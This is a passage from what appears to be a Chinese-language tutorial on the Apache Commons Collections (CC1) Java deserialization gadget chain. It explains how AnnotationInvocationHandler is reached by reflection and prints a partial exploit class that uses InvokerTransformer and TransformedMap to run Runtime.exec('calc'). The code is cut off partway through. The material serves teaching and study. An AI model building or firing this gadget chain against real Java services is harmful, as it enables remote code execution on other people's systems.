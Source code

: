 是一个Map.Entry的形式，然后在遍历map。使用了setValue，所以我们就要去控制Map

我们看的该类的构造方法

[![](assets/1700127979-70bf84a7d63f2a719ff15a099229a32b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116154913-a27db692-8454-1.png)

我们在构造函数中发现Map可以被我们完全控制，`Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,invokerTransformer);`同时我们要注意AnnotationlnvocationHandler类是一个`default`，所以我们只能通过反射来获得类的实例对象。

```plain
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ann=c.getDeclaredConstructor(Class.class,Map.class);
ann.setAccessible(true);
Object annIns=ann.newInstance(Override.class,transformedmap);
```

于是乎我们构造的完整的exp就是如下的情况

```plain
package org.example;


import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException, IOException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {
        Runtime r=Runtime.getRuntime();
        InvokerTransformer invokerTransformer=new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}); //方法名为exec，参数类型为String，参数值为calc
        HashMap<Object,Object> map=new HashMap<>();
        map.put("k","v");
        Map<Object,Object> transformedmap=TransformedMap.decorate(map,null,invokerTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
```